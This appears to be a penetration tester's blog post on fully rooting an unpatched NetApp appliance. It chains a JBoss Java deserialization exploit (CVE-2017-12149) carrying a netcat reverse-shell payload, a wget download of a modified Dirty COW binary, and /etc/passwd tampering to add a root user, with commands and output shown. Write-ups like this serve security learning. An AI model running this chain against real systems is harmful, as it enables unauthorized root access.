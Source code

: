 ```yaml
---
layout: post
title: Deserialized Double Dirty
categories: [pentest, exploits]
tags: [java, deserialization, jboss, dirtycow, privilege escalation]
comments: true
---
```

Recently I was able to fully root an NetApp OnCommand Performance Manager appliance using a Java Deserialization vulnerability and Dirty Cow.  

**Disclaimer: NetApp has security patches for both of these issues. This appliance simply had not been updated.**

Late last year I ran into a device that was vulnerable to [CVE-2017-12149](https://nvd.nist.gov/vuln/detail/CVE-2017-12149) and was able to get a shell on that device. After using [Ysoserial](https://github.com/frohoff/ysoserial) and loading in the payloads in Burp Repeater (pro tip from @hateshaped: right click -> paste from file), I wanted to automate the building and delivery of the payload. I knew @byt3bl33d3r had a quite a few of these scripts on [Coalfire Lab's Github](https://github.com/Coalfire-Research/java-deserialization-exploits) so I modified a similar JBoss script for this specific vulnerability. The PoC can be found [here](https://github.com/jreppiks/CVE-2017-12149.git)

So when this popped up again, I was super excited. The system had a "modern" version of netcat, so ```nc -e``` worked just fine to grab a shell. 
```
python jdspoc.py --proto http --ysoserial-path ./ysoserial.jar 10.10.193.110:80 'nc -ne /bin/bash 192.168.3.230 8000'
```
This time, however, the admin (or perhaps NetApp) had done something right, the application was not running as root, but a low privilege user. 
```
 nc -lvp 8000
listening on [any] 8000 ...
10.10.193.110: inverse host lookup failed: Unknown host
connect to [192.168.3.230] from (UNKNOWN) [10.10.193.110] 34503
id
uid=998(jboss) gid=42(shadow) groups=1002(jboss),42(shadow)
```
While doing some enumeration, uname came back with the following:
```
Debian 3.2.68-1+deb7u1
```
Ripe for Dirty COW! The Dirty COW exploit I'm most familiar with is [Firefart's exploit](https://github.com/FireFart/dirtycow.git). It's stable and it works. I ran the exploit and it created the firefart user with no issues, but this is where it got interesting.

Typical "firefartage" one does ```su - firefart``` or ```ssh firefart@<ip>```. However, I could not upgrade my shell to a TTY shell (I'm sure I'm saying that wrong...). I could not ```su``` since I didn't have a "real" terminal. I tried all the usual tricks (e.g. [Pentest Monkey's awesomeness](http://pentestmonkey.net/blog/post-exploitation-without-a-tty) and [Ropnop's great blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)) but not even stackoverflow could help me out!

 
  
SSH was also a bust. The ssh server on the system was set up so only members of the maintenance group could log in and it could not be a root user. I decided to modify Firefart's code and make the firefart user an non-root user and add them to the maintenace group. I ran the exploit and it created the user! I was now able to ssh into the device. I was still not root, though. So, I ran the original exploit again thinking I could then just ```su - firefart```. When I tried that, it failed with an error: ```I have no name!``` 

Even running the script twice with two different usernames ended in the same error. I decided I needed to modify the exploit code again to add both users at the same time. You can grab the modified code I lovingly named doubledirty [here](https://github.com/jreppiks/doubledirty.git) Please be kind, I am not a developer, but it complied and ran on the very first time, that has to count for something, right?!

I grabbed the new exploit code and ran it on the system:
```
jboss@netapp:/tmp$ wget 192.168.3.230:8080/doubledirty
wget 192.168.3.230:8080/doubledirty
--2019-08-16 14:28:23--  http://192.168.3.230:8080/doubledirty
Connecting to 192.168.3.230:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18200 (18K) [application/octet-stream]
Saving to: `doubledirty'

     0K .......... .......                                    100% 30.4M=0.001s

2019-08-16 14:28:23 (30.4 MB/s) - `doubledirty' saved [18200/18200]

jboss@netapp:/tmp$ ls -ltr
ls -ltr
total 696
drwx------ 2 root  root          4096 Feb  8  2016 vmware-root
-rw-r--r-- 1 root  root           654 Feb  8  2016 netapp-opm-postinst.log
-rw-r--r-- 1 jboss shadow       18200 Aug 16 14:27 doubledirty
jboss@netapp:/tmp$ chmod +x doubledirty
chmod +x doubledirty
jboss@netapp:/tmp$ ./doubledirty
./doubledirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Complete line:

jreppiksroot:2fe7ebe7ff742bf25fd67824bfed403a:0:0:pwned:/root:/bin/bash
jreppiks:2fe7ebe7ff742bf25fd67824bfed403a:14:1000:pwned:/root:/bin/bash
```

I was able to ssh in as the non-priveledged user and then su - to the root user!
```
# ssh jreppiks@10.10.193.110
Password: 
Linux netapp 3.2.0-4-amd64 #1 SMP Debian 3.2.68-1+deb7u1 x86_64
Last login: Fri Aug 16 11:48:49 2019 from 192.168.3.230
Could not chdir to home directory /root: Permission denied
-bash: /root/.bash_profile: Permission denied
jreppiks@netapp:/$ id
uid=14(jreppiks) gid=1000(maintenance) groups=1000(maintenance)
jreppiks@netapp:/$ su - jreppiksroot
Password: 
jreppiksroot@netapp:~# id
uid=0(jreppiksroot) gid=0(root) groups=0(root)
jreppiksroot@netapp:~# 
```
